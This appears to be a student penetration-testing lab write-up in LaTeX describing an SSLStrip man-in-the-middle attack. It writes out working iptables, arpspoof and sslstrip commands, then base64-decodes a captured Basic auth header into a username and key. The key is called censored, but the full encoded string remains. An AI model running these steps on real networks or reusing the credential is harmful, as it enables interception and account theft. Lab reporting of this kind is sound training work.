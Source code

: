 \documentclass[notitlepage]{article}
\begin{document}
    \subsection{SSL Strip}
    Now that we had the packets we want to sniff and a possible host, we needed to get a little more information. To use arpspoof, we use the host IP we found from wireshark, but we also need the gateway
    ip address. To do this, we ran the command route -n and got the ip 10.70.184.1. We now had the gateway ip and the ip we found from wireshark 10.70.184.101. We now had to get the right conditions set up
    for SSLStrip to work, so we read the readme and executed the following commands as a super user
\begin{verbatim}
sudo su
echo "1" > /proc/sys/net/ipv4/ip_forward
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT
--to-port 6166

fuser -k 80/tcp
\end{verbatim}
    We are now terminating the processes on port 80 and then redirecting traffic that was to go to port 80 to port 6166. Next was to run arpspoof on two different terminals
    with the host and gateways flip flopped to complete the man in the middle attack
\begin{verbatim}
Terminal 1:
./arpspoof -i ens32 -t 10.70.184.101 10.70.184.1
Terminal 2:
./arpspoof -i ens32 -t 10.70.184.1 10.70.184.101
\end{verbatim}
    We are now ready to start the sslstrip as follows
\begin{verbatim}
python3 sslstrip.py -w strip.logs -l 6166 -a
Control z
bg
tail -f strip.logs
\end{verbatim}
    This allows us to run sslstrip in the background and see if strip.logs is updated. After several minutes of leaving it running, we can see three main pages being sent over and over again. 
    One of them is an error page if the user does not type in their credentials, but two of them are secret pages \\
\texttt{[image: ~/Desktop/school/fall2023/pen/ex/ex0e0/page2]} \\
\texttt{[image: ~/Desktop/school/fall2023/pen/ex/ex0e0/page1]} \\
    We can look through the text being displayed and find an interesting field that says authorization : basic and what appears to be base64 encoded text. We can copy this text and decrypt it as follows
\begin{verbatim}
printf 'Yy5zdGVhZG1hbjpLRVkwMTUtalh1UGtNcjVWM0Z2MkxzUUZNTEMydz09' | base64 -d
c.steadman:KEY015-jXu...LC2w==
\end{verbatim}
    We now have a key that doubles as the password for credentials. For the privacy of the customer, the key has been partially censored
\end{document}
